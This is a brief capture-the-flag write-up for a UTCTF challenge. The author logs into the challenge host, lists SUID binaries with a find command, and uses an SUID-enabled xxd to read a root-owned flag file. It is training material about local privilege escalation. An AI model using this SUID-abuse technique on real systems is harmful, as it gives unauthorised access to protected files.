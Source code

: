 # Trapped in Plain Sight 1:
```sh
ssh -p 4302 trapped@challenge.utctf.live
```

### Poking around:

flag.txt is not readable and owned by the account "noaccess"

sudo was not a command, so can't do sudo -l to see sudoable binaries

### Solution:
```sh
find / -perm -u=s -type f 2>/dev/null
```

Used this command to find suid binaries

I noticed that xxd command had suid bit set.
**Eureka!**

```sh
xxd flag.txt
```

Flag output in format utflag{}

This works because the **suid bit** allows whoever is executing the file (in this case xxd) to execute it as the owner, in this case iirc root.

So, it executed xxd as root which read the file.